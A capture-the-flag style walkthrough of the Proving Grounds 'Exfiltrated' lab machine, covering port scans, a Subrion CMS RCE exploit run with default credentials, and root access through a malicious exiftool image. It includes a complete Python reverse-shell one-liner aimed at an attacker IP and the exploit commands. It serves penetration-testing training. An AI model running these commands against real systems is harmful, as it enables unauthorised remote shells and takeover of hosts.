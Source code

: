 ```yaml
---
title: Proving Grounds - Exfiltrated
date: 2022-08-08 12:37:00 -500 
categories: [Proving Grounds]
tags: [oscp,linux]
---
```


# Exfiltrated Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|192.168.x.163|Exfiltrated|Linux|

## Path to Exploitation
This is a Linux machine running an HTTP server and has SSH available. We will identify the vulnerable web-application and using a publicly available exploit and default credentials we obtain a web-shell and get command execution. Once on the machine we identify a scheduled script that takes uploaded images and executes the exiftools command on them. We can leverage this by uploading a .jpg file with an embedded reverse shell payload.

# Enumeration

## Full Port Scan

```bash
$ nmap 192.168.109.163 -p- -oA Exfiltrated/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|80|http|

## Service Scan

```bash
$ nmap 192.168.109.163 -p 22,80 -sC -sV -oA Exfiltrated/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)|
|80|http|httpd 2.4.41 ((Ubuntu))|

# Website Enumeration

![Web Application](/assets/ProvingGrounds/Exfiltarted/site-landing-page.png "Site Page")

We see the server is running Subrion CMS 4.2.1 which has an [Authenticated RCE](https://www.exploit-db.com/exploits/49876). We can guess the default credentials admin:admin and see that we can now login to the application

![Valid Credentials](/assets/ProvingGrounds/Exfiltarted/valid-creds.png "Valid Credentials")

We can now use the exploit and supply it the credentials for the application

```bash
$ python3 exploit.py -u http://192.168.109.163/panel/ -l admin -p admin 
```

And we see that we have command execution on the box

![Command Execution](/assets/ProvingGrounds/Exfiltarted/command-exec.png "Confirmed Command Exec")

We can get a reverse shell by setting up a listener and running the following python command
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.109",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

# Privilege Escalation
We inspect the content of /opt/image-exif.sh and see the following code.

![Script Content](/assets/ProvingGrounds/Exfiltarted/script-content.png "Script Content")

We see that the code is taking images from the site's upload directory and running exiftools on it. We can inject a malicious command into a jpg file attempt to get a reverse shell when exfitools executes. We can use the exploit located [here](https://www.exploit-db.com/exploits/50911) to generate our malicious jpg.

```bash
$ python3 exif-exploit.py -s 192.168.49.109 443
```

![Exploit](/assets/ProvingGrounds/Exfiltarted/exploit.png "Exploit")

We now upload our image to the site's upload directory, setup a listener and wait to catch the shell

![Root Shell](/assets/ProvingGrounds/Exfiltarted/root-shell.png "Root Shell")

And we now have a root shell

